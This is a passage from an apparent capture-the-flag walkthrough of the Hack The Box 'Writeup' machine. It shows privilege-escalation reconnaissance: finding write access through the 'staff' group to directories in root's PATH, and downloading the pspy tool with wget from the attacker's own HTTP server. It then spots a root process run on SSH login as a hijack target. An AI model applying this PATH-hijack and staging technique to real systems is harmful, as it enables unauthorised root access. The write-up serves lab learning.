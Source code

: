 After logging in, `sudo -l` shows that we are unable to run sudo as jkr. Running `id` does show us something interesting though:

```bash
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

The group `staff` is a non-standard group, and we are allowed to write to `usr/local/bin` and `usr/local/sbin`.

```bash
jkr@writeup:~$ ls -ld /usr/local/bin /usr/local/sbin
drwx-wsr-x 2 root staff 20480 Apr 19  2019 /usr/local/bin
drwx-wsr-x 2 root staff 12288 Apr 19  2019 /usr/local/sbin
```

Both of these locations are in root's `$PATH`, so if we can find something being run by root we can add something here with the same name and it would run as root.

### PSPY

Let's see if we can figure out what's happening on the box to see what we have to work with. Let's start by downloading the latest version of PSPY at <https://github.com/DominicBreuker/pspy>. Then we'll create a www directory and spin up a simple python server on our Kali machine.

```bash
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/writeup/www]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then, in our other shell as jkr, run wget and download pspy to the machine.

```bash
jkr@writeup:/tmp$ wget http://10.10.14.5/pspy64
--2023-03-05 16:41:34--  http://10.10.14.5/pspy64
Connecting to 10.10.14.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                 100%[=========================================================================>]   2.96M  2.88MB/s    in 1.0s    

2023-03-05 16:41:35 (2.88 MB/s) - ‘pspy64’ saved [3104768/3104768]
```

Next, we need to make it executable with `chmod +x pspy64` and run it `./pspy64`.

First off, we see `/bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1` being run, but that doesn't seem to do too much for us since we can't access the root directory. If we open a new shell and ssh in to the box again, we see a new process being run `sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new`.
